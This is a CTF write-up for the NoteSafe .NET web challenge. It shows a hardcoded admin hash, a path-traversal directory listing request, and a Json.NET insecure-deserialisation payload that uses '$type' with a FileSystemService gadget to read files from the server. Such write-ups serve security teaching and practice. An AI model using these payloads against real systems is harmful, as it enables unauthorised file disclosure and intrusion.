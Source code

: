 ```yaml
---
title: "Notesafe"
description: 
date: 2025-07-02T23:48:26Z
image: 
tags:
  - ctf
  - insecure-deserialisation
  - cydes2025
categories:
  - CTF-Writeups
---
```



Welcome to NoteSafe, the ultra-secure note-taking app that protected by "Bitcoin-style encryption"™. Store your deepest thoughts and sensitive files behind a digital vault crafted by developers who read just enough of the Bitcoin whitepaper to feel dangerous.

But how safe is NoteSafe, really?

Can you bypass the crypto-hype, dig through the interface, and uncover what they've desperately tried to hide? A flag waits for the one who can see through the buzzwords and break the illusion of security.

## Writeup

1. There are many dotnet DLL files. We can use JetBrain's dotPeek to disassemble them.
2. There is an interesting code in `NoteSafe.Services.DatabaseService`

```cs
  private async Task SeedDatabaseAsync()
  {
    try
    {
      if (!await this.CheckTableExistsAsync("Users"))
        LoggerExtensions.LogWarning((ILogger) this._logger, "Users table does not exist, cannot seed database.", Array.Empty<object>());
      else if (await this._context.Users.CountAsync<User>() > 0)
      {
        LoggerExtensions.LogInformation((ILogger) this._logger, "Database already has users, skipping seed.", Array.Empty<object>());
      }
      else
      {
        User adminUser = new User()
        {
          Username = "admin",
          PasswordHash = "240be518fabd2724ddb6f04eeb1da5967448d7e831c08c8fa822809f74c720a9",
          CreatedAt = DateTime.UtcNow
        };
        this._context.Users.Add(adminUser);
        int num1 = await this._context.SaveChangesAsync();
        LoggerExtensions.LogInformation((ILogger) this._logger, "Added admin user to database.", Array.Empty<object>());
        this._context.Notes.Add(new Note()
        {
          Title = "Secret Flag",
          Content = "FLAG{this_flag_is_not_the_flag}",
          CreatedAt = DateTime.UtcNow,
          UpdatedAt = DateTime.UtcNow,
          UserId = adminUser.Id
        });
        int num2 = await this._context.SaveChangesAsync();
        LoggerExtensions.LogInformation((ILogger) this._logger, "Added flag note to database.", Array.Empty<object>());
        adminUser = (User) null;
      }
    }
    catch (Exception ex)
    {
      LoggerExtensions.LogError((ILogger) this._logger, ex, "Error seeding database.", Array.Empty<object>());
      throw;
    }
  }
```
- The password is `admin123`
2. Let's log in as admin:admin123 
![dashboard](post/notesafe/Pasted%20image%2020250627215718.png)
	- Alright we are in
3.  The flag does not work 
![does not work](post/notesafe/Pasted%20image%2020250627215948.png)
4. We can get directory listing like this:
```http
GET /api/Files/list?folder=../../ HTTP/1.1
```
5. Note: It is most probably an insecure deserialisation problem
```cs
  public async Task<Note> CreateNoteAsync(string jsonPayload, int userId)
  {
    Note noteAsync;
    try
    {
      try
      {
        Note note = JsonConvert.DeserializeObject<Note>(jsonPayload);
        if (note != null)
        {
          note.UserId = userId;
          note.CreatedAt = DateTime.UtcNow;
          note.UpdatedAt = DateTime.UtcNow;
          this._context.Notes.Add(note);
          int num = await this._context.SaveChangesAsync();
          noteAsync = note;
          goto label_15;
        }
        note = (Note) null;
      }
      catch
      {
      }
      object obj1 = JsonHelper.DeserializeObject<object>(jsonPayload);
      PropertyInfo[] properties = obj1.GetType().GetProperties();
      Dictionary<string, object> dictionary = new Dictionary<string, object>();
      foreach (PropertyInfo propertyInfo in properties)
      {
        try
        {
          object obj2 = propertyInfo.GetValue(obj1); // creating the object
          dictionary[((MemberInfo) propertyInfo).Name] = obj2;
        }
        catch
        {
          dictionary[((MemberInfo) propertyInfo).Name] = (object) "[Error reading property]";
        }
      }
      throw new InvalidOperationException("Invalid object type. Debug info: " + JsonConvert.SerializeObject((object) dictionary)); // we want to trigger this
    }
    catch (Exception ex)
    {
      throw;
    }
label_15:
    return noteAsync; // we dont want this
  }
```
Reason for the vulnerability: `JsonHelper.DeserializeObject<object>`
```cs
public static T DeserializeObject<T>(string json)
  {
    try
    {
      JsonSerializerSettings settings = new JsonSerializerSettings()
      {
        TypeNameHandling = TypeNameHandling.All,
        SerializationBinder = (ISerializationBinder) null,
        TypeNameAssemblyFormatHandling = TypeNameAssemblyFormatHandling.Full,
        ConstructorHandling = ConstructorHandling.AllowNonPublicDefaultConstructor,
        PreserveReferencesHandling = PreserveReferencesHandling.Objects,
        MetadataPropertyHandling = MetadataPropertyHandling.ReadAhead
      };
      return JsonConvert.DeserializeObject<T>(json, settings);
    }
    catch
    {
      throw;
    }
  }
```
- `T` can be only object, so we can deserialize any object we want.
6. Our JSON payload:
First, We identify our gadget: In this case, our gadget is  FileSystemService object as it will read file and store it as an instance variable
```cs
public class FileSystemService
{
  public string FilePath { get; set; } // we can set FilePath

  public FileSystemService()
  {
  }

  public FileSystemService(string filePath) => this.FilePath = filePath;

  public string ReadFileAsString(string path = null)
  {
    string str = path ?? this.FilePath;
    if (string.IsNullOrEmpty(str))
      return (string) null;
    try
    {
      return File.Exists(str) ? File.ReadAllText(str) : (string) null;
    }
    catch (Exception ex)
    {
      return (string) null;
    }
  }

  public string FileContents // file contents is leaked here
  {
    get => this.ReadFileAsString();
    set
    {
    }
  }
	<snip>
}

```
We need to get information about the assembly and type from dotPeek
```
// Decompiled with JetBrains decompiler
// Type: NoteSafe.Services.FileSystemService
// Assembly: NoteSafe, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null
// MVID: 50FA2D5F-03F2-4E88-B45C-760E5B77FEB8
// Assembly location: C:\Users\Khiew\Downloads\NoteSafe\NoteSafe\FOR_PLAYER\NoteSafe\NoteSafe\NoteSafe.dll
```
To build our payload,
```json
{"$type": "NoteSafe.Services.FileSystemService, NoteSafe, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null","FilePath": "../../../flag.txt"}
```
Output:
```http
HTTP/1.1 400 Bad Request

Content-Type: text/plain; charset=utf-8

Date: Fri, 27 Jun 2025 23:43:28 GMT

Server: Kestrel

Content-Length: 127



Invalid object type. Debug info: {"FilePath":"../../flag-hLS1iTUpUV.txt","FileContents":"flag{fake_flag}"}
```
7. However, this will not work in remote. This is because the organizer changed the name of the flag file. To find the new name, list the directory with the endpoint previously
```http
GET /api/Files/list?folder=../../ HTTP/1.1
```
Output:
```json
{"currentPath":"/app/../../","files":[{"name":"flag-hLS1iTUpUV.txt","path":"/app/../../flag-hLS1iTUpUV.txt","size":36,"lastModified":"2025-06-19T20:56:28.7842621+00:00"},{"name":".dockerenv","path":"/app/../../.dockerenv","size":0,"lastModified":"2025-06-27T23:38:41.8432009+00:00"}], <snip>}
```
- The path is `/app/../../flag-hLS1iTUpUV.txt`
8. To get the flag,
```http
POST /api/Notes HTTP/1.1
{"$type": "NoteSafe.Services.FileSystemService, NoteSafe, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null","FilePath": "../../flag-hLS1iTUpUV.txt"}
```
Output:
```
Invalid object type. Debug info: {"FilePath":"../../flag-hLS1iTUpUV.txt","FileContents":"prelim{buzzw0rd5_4r3_n0t_3ncrypt10n}"}
```
